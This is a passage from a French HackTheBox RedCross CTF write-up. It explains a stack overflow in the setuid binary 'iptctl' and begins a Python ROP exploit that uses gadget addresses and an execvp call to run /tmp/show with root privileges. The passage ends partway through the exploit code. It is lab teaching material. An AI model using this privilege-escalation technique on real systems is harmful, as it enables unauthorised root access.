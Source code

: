 Maintenant deux points important sur l'état de la mémoire du programme au moment de l'exploitation :  

* Les registres rax et rdi pointent sur la chaîne de caractère *action* que l'on a saisit. Elle sera forcément tronquée car l'adresse IP la suit directement en mémoire et un octet nul est forcé (ligne 64 du code)
* Il faut 34 octets à partir de *action* avant d'écraser l'adresse de retour

Et une problématique :  

* Pour appeler *setuid(0)* il faut que rdi soit mis à 0 écrasant donc sa valeur
* Lorsque l'on appelle *setuid*, la valeur de retour sera mise dans rax écrasant alors sa valeur

Il faudrait alors un gadget pour *"sauvegarder"* la valeur de rax/eax ou rdi/edi... évidemment il n'y a rien :p  

Bon on n'est pas obligé d'appeler *setuid* : avec [un effective UID](https://intelligea.wordpress.com/2014/02/11/effective-user-id-and-group-id-vs-real-user-id-and-group-id/) (euid) à 0 ce sera suffisant pour afficher le contenu du flag.  

Voici mon exploit final :  

```python
#!/usr/bin/env python3
# - devloop exploit for iptctl -
# HackTheBox RedCross CTF
# 
#                       :::!~!!!!!:.
#                   .xUHWH!! !!?M88WHX:.
#                 .X*#M@$!!  !X!M$$$$$$WWx:.
#                :!!!!!!?H! :!$!$$$$$$$$$$8X:
#               !!~  ~:~!! :~!$!#$$$$$$$$$$8X:
#              :!~::!H!<   ~.U$X!?R$$$$$$$$MM!
#              ~!~!!!!~~ .:XW$$$U!!?$$$$$$RMM!
#                !:~~~ .:!M"T#$$$$WX??#MRRMMM!
#                ~?WuxiW*`   `"#$$$$8!!!!??!!!
#              :X- M$$$$       `"T#$T~!8$WUXU~
#             :%`  ~#$$$m:        ~!~ ?$$$$$$
#           :!`.-   ~T$$$$8xx.  .xWW- ~""##*"
# .....   -~~:<` !    ~?T#$$@@W@*?$$      /`
# W$@@M!!! .!~~ !!     .:XUW$W!~ `"~:    :
# #"~~`.:x%`!!  !H:   !WM$$$$Ti.: .!WUn+!`
# :::~:!!`:X~ .: ?H.!u "$$$B$$$!W:U!T$$M~
# .~~   :X@!.-~   ?@WTWo("*$$$W$TH$! `
# Wi.~!X$?!-~    : ?$$$B$Wu("**$RM!
# $R@i.~~ !     :   ~$$$$$B$$en:``
# ?MXT@Wx.~    :     ~"##*$$$$M~
#

import struct
import os
from subprocess import Popen, PIPE
from time import sleep
import sys

def qw(value):
    return struct.pack("<Q", value)

ppret = 0x400de1  # pop rsi ; pop r15 ; ret
execv = 0x400d13  # call execvp
exit0 = 0x400d18  # mov edi, 0 ; call exit

buff = b"/tmp/show\0"
buff += b"\0" * (34 - len(buff))
buff += qw(ppret)  # Met RSI à NULL (second paramètre de execvp)
buff += qw(0)
buff += qw(0)
```